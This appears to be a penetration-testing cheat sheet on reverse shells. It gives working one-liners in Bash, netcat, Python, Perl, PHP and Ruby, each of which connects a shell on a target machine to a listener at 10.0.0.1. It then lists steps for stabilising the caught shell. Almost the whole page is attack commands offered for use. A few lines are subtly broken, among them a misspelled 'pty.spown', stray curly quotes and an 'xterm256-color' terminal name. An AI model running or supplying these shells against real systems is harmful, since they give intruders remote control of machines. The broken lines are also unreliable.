 # Reverse Shells

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Python

{% code overflow="wrap" %}
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

#### Perl

{% code overflow="wrap" %}
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
{% endcode %}

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

{% code overflow="wrap" %}
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
{% endcode %}



### Stabilize Shell

* `perl -e 'exec "/bin/sh";’`
* `python -c 'import pty;pty.spown("/bin/bash");'`
* background the shell then find your terminal rows and columns with the following command
* `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\\n/’`
* `stty raw -echo`
* `fg` It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal by hitting the enter button once or twice
* `export SHELL=bash`
* `export TERM=xterm256-color`
* `stty rows 38 columns 116`

